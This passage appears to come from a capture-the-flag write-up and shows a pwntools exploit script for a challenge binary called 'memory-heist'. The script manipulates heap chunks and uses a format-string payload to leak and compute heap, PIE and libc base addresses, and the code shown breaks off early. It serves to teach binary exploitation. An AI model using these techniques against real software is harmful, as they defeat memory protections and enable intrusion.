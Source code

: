 So lets take a look at the script, minus the insane amount of comments I made trying to understand this, shall we?

```py
from pwn import *                                                                                                                    

binary = "./memory-heist"
#script = '''
#
#b *main-0x5f
#'''

# muh debugging
def attach_stop(p):
    gdb.attach(p)
    raw_input()

# allocate a chunk
def alloc(idx,size,data):
    p.sendlineafter('> ','1')
    p.sendlineafter('> ',str(idx))
    p.sendlineafter('> ',str(size))
    p.sendafter('Memory> ',data)

# free a chunk
def sice(idx):
    p.sendlineafter('> ','2')
    p.sendlineafter('> ', str(idx))

# view a chunk - this also wipes out half of our `chunks` array
def view(idx,kek):
    p.sendlineafter('> ','3')
    p.sendlineafter('[Y/N]> ',kek)
    p.sendlineafter('> ',str(idx))
    return p.recvline().split(b':')[1]

# start
if __name__ == "__main__":
    p = process(binary)
    #p = remote('35.244.10.136', 10253)

    alloc(1, 0x208,'AA')

    alloc(7, 0x2000,'AA')

    alloc(9, 0x100, 'AAAA')

    alloc(11, 0x100, '%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p') # leaky chunk

    sice(7)

    sice(9) # tcache

    leaks = view(11,'a').strip()
    print(leaks.split(b'0x'))
    heap_base = (int(b'0x' + leaks.split(b'0x')[8],0)&0xfffffffffffff000) - 0x2000
    pie_base = int(b'0x' + leaks.split(b'0x')[5],0) - 0x11b0
    libc_base = int(b'0x' + leaks.split(b'0x')[15],0) - 0x270b3
    print(f'Heap base: {hex(heap_base)}')
    print(f'Pie leak: {hex(pie_base)}')
    print(f'Libc base: {hex(libc_base)}')

    alloc(0, 0x500, 'AA')
```